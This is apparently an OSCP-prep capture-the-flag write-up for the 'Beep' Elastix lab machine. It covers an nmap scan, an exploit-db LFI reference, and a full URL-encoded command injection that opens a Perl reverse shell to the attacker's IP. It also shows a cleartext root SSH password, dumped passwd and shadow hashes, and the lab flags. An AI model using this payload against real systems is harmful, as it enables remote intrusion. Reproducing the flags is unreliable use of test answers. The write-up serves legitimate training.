# BEEP / OSCP PREP



## NMAP SCAN

```text
PORT      STATE SERVICE    REASON  VERSION
22/tcp    open  ssh        syn-ack OpenSSH 4.3 (protocol 2.0)
25/tcp    open  smtp?      syn-ack
|_smtp-commands: Couldn't establish connection on port 25
80/tcp    open  http       syn-ack Apache httpd 2.2.3
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.2.3 (CentOS)
|_http-title: Did not follow redirect to https://10.129.100.99/
110/tcp   open  pop3?      syn-ack
111/tcp   open  rpcbind    syn-ack 2 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2            111/tcp   rpcbind
|   100000  2            111/udp   rpcbind
|   100024  1            939/udp   status
|_  100024  1            942/tcp   status
143/tcp   open  imap?      syn-ack
443/tcp   open  ssl/https? syn-ack
942/tcp   open  status     syn-ack 1 (RPC #100024)
993/tcp   open  imaps?     syn-ack
995/tcp   open  pop3s?     syn-ack
3306/tcp  open  mysql      syn-ack MySQL (Too many connections)
4190/tcp  open  sieve?     syn-ack
4445/tcp  open  upnotifyp? syn-ack
4559/tcp  open  hylafax?   syn-ack
5038/tcp  open  asterisk   syn-ack Asterisk Call Manager 1.1
10000/tcp open  http       syn-ack MiniServ 1.570 (Webmin httpd)
```

## SSL 443 ELASTIX






### LFI

* [https://www.exploit-db.com/exploits/37637](https://www.exploit-db.com/exploits/37637)

#### POC 



### EXPLOIT

```text
https://10.129.100.99/recordings/misc/callme_page.php?action=c&callmenum=233@from-internal/n%0D%0AApplication:%20system%0D%0AData:%20perl%20-MIO%20-e%20%27%24p%3dfork%3bexit%2cif%28%24p%29%3b%24c%3dnew%20IO%3a%3aSocket%3a%3aINET%28PeerAddr%2c%2210.10.14.104%3a443%22%29%3bSTDIN-%3efdopen%28%24c%2cr%29%3b%24%7e-%3efdopen%28%24c%2cw%29%3bsystem%24%5f%20while%3c%3e%3b%27%0D%0A%0D%0A
```



## SSL 10000 WEBMIN 1.570





### EXPLOIT WITH METASPLOIT



## LOGIN SSH



```text
ssh -oKexAlgorithms=+diffie-hellman-group1-sha1 root@10.129.100.99

PASS= jEhdIekWmdjE
```

## SHELLSHOCK





## USERS WITH BASH

```text
root:x:0:0:root:/root:/bin/bash
asterisk:x:100:101:Asterisk VoIP PBX:/var/lib/asterisk:/bin/bash
spamfilter:x:500:500::/home/spamfilter:/bin/bash
fanis:x:501:501::/home/fanis:/bin/bash
```

## SHADOW

```text
root:$1$yYjor88z$SOARx58.XEaj14nlX4iRh1:17263:0:99999:7:::jEhdIekWmdjE
fanis:$1$pKpD8eOD$haUM/7L7wmQBUWAVzMy3q.:17263:0:99999:7:::
```

## FLAGS

### USER

```text
27843704c79909c692d6dff27be861c0
```

### ROOT

```text
60a21f04ca3b8da8b29814fafe516924
```


